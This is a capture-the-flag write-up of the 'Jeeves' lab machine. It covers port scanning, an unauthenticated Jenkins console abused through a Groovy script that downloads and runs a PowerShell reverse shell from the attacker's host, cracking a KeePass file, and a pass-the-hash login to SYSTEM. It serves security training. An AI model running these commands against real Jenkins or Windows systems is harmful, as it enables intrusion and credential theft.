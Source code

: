 # Jeeves

## Summary

This machine a medium rated box. Looking into the machine a Jenkins instance can be located on the machine. The Jenkins instance on the machine does not require any information and can therefore be exploited to gain code execution. After gaining user on the machine, a keepass file can be located on the machine. Upon cracking the file a hash can be retrieved allowing administrator access. 

## Enumeration

Using Nmap 4 different ports can be found on the computer. There are 2 different webservers one on port 80 and another on port 50000. As well as the webservers, there is an SMB instance on the computer. 

### Scan all ports

```bash
sudo nmap -p- 10.10.10.63 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 14:00 EDT
Nmap scan report for 10.10.10.63
Host is up (0.020s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 116.90 seconds
```

### More information

```bash
sudo nmap -p80,135,445,50000 -sC -sV -oA nmap/info 10.10.10.63
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 14:03 EDT
Nmap scan report for 10.10.10.63
Host is up (0.092s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h02m56s, deviation: 0s, median: 5h02m55s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-05-22T23:06:13
|_  start_date: 2021-05-22T23:02:02

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.07 seconds
```

## Port 50000

On port 50000 there is a webserver that is powered by Jetty. 

![Jetty instance](attachments/Jeeves1.png)

Using gobuster a new directory ```/askjeeves``` was found. This directory holds a Jenkins instance that does not require authentication.

```bash
gobuster dir -u http://10.10.10.63:50000/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/50000-directory.log                                                                                             
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt                                   
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/22 14:18:26 Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]           
===============================================================
2021/05/22 14:25:56 Finished
===============================================================
```

![Jenkins instance](attachments/Jeeves2.png)

This Jenkins instance can be used to gain code execution on the host system. This [github](https://github.com/gquere/pwn_jenkins) has different ways that we can attack a Jenkins instance. The easiest way I found to execute code was to use the script console provided by the Jenkins instance. 

![Jenkins Groovy Script](attachments/Jeeves3.png)

I was able to get a shell on the system by using Groovy script to execute powershell.

```powershell
def command = """powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/rev.ps1')"""
def proc = command.execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

![Getting Shell](attachments/Jeeves4.png)

## Getting root

Once on the machine a keepass file can be located in the users Documents folder. After donwloading the file to my machine I used ```keepass2john``` so I could crack the file with John. 

```bash
/opt/john/keepass2john CEH.kdbx > crackme
```

```bash
/opt/john/john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt crackme 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:29 DONE (2021-05-22 16:45) 0.03445g/s 1894p/s 1894c/s 1894C/s music21..monyong
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

After recovering the password the keepass file can be opened. In this file there is a hash. The hash is confirmed to be valid using CrackMapExec.

```bash
cme smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SM
Bv1:True)                                                                                 
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff
238cbe81fe00 (Pwn3d!)
```

Finally ```psexec.py``` from Impacket is used to gain a shell with the hash.

```bash
psexec.py Administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81f
e00
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file AQMSdTnC.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service bFMp on 10.10.10.63.....
[*] Starting service bFMp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### Note about root.txt

The file root.txt does not exist on the server directly. Instead there is a file called hm.txt that tells us to look deeper. On an NTFS file system there are alternative data streams that can be attached to files. These alternative data streams can be used to hide files. Using ```dir /r``` any alternative data streams get listed on the box. There are 2 different ways to see the file one with ```more``` and the other with powershell. 

```bash
C:\Users\Administrator\Desktop>dir /r
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk                                                           
               2 File(s)            833 bytes
               2 Dir(s)   7,480,741,888 bytes free

C:\Users\Administrator\Desktop>more < hm.txt:root.txt
{REDACTED}

C:\Users\Administrator\Desktop>powershell (Get-Content hm.txt -Stream root.txt)                                                  
b''{REDACTED}
```